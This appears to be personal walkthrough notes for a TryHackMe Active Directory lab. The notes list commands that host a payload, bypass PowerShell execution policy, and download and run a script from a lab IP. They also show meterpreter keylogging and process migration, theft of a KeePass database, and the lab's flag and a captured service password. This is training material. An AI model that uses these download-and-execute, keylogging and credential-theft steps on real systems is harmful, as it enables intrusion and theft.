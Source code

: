 ```bash
sudo python -m http.server 80
```

```powershell
# WinRM / mimikatz cmd shell / Task 3
# ------------------------------------

powershell.exe -ep bypass

$wc = New-Object Net.WebClient
$wc. DownloadFile('http://10.50.81.66/service.ps1', "$PWD\service.ps1")
dir
.\service.ps1
```

```shell
# meterpreter remote shell
# ------------------------

ps | grep "explorer"
migrate PID

keyscan_start # wait couple minutes
keyscan_dump
keyscan_stop

cd C:/Users/trevor.local/Documents
download PasswordDatabase.kdbx
```

**On Problems**:  If you do not see an explorer.exe process for the trevor.local user, you can start the process yourself by performing the following steps:

1. Reset the password of the trevor.local user using the following command: `net user trevor.local <chosen password>`
2. Run the following in powershell: `C:\auto-login.ps1 trevor.local <chosen password> THMSERVER1`
3. Reboot the server using `shutdown -r`
4. Once the server is back online, you should see the explorer process.

## Keepass #kpcli

```bash
# Password is the captured one

keepassxc PasswordDatabase.kdbx 

# -- alternative ---

kpcli
open PasswordDatabase.kdbx
ls
ls PasswordDatabase/*
show -f -a PasswordDatabase/General/Flag

THM{AD.Users.Can.Give.Up.Good.Secrets}

show -f -a PasswordDatabase/General/svcServMan

Sup3rStr0ngPass!@
```
